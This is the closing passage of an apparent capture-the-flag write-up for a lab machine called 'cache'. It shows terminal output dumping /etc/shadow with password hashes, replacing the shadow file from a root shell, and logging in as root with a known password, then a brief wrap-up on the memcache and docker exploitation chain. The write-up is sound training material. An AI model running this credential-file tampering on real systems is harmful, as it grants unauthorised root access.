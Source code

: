     _apt:*:17941:0:99999:7:::
    lxd:*:17941:0:99999:7:::
    uuidd:*:17941:0:99999:7:::
    dnsmasq:*:17941:0:99999:7:::
    landscape:*:17941:0:99999:7:::
    pollinate:*:17941:0:99999:7:::
    sshd:*:18156:0:99999:7:::
    ash:$6$xXLd6jlN$b37bISaMTwk2uxlpOsRFlJYmNMzFPlSb.7nD2oSzhjtdikwne5j17lAtfwKP0jyfaScDgLKFn9gyPvxg57NcS.:18157:0:99999:7:::
    luffy:$6$aPEHFC8D$9ZWqYH2UuImmKRLWA7ZBzSWiBiGLUmXCn7BBpcFq5quVXIj6mA0QtiGwH8opTZ53AzpgnPhaOGq4i1SaRlBlP/:18157:0:99999:7:::
    memcache:!:18157:0:99999:7:::
    mysql:!:18219:0:99999:7:::
    # mv /etc/shadow.new /etc/shadow    
    mv /etc/shadow.new /etc/shadow
    # exit
    exit
    luffy@cache:~$ su
    su
    Password: password

    root@cache:/home/luffy#

# Wrapping up

The box was overall interesting. The root part was really nice as it chained the
memcache "exploitation" and the "docker" one.

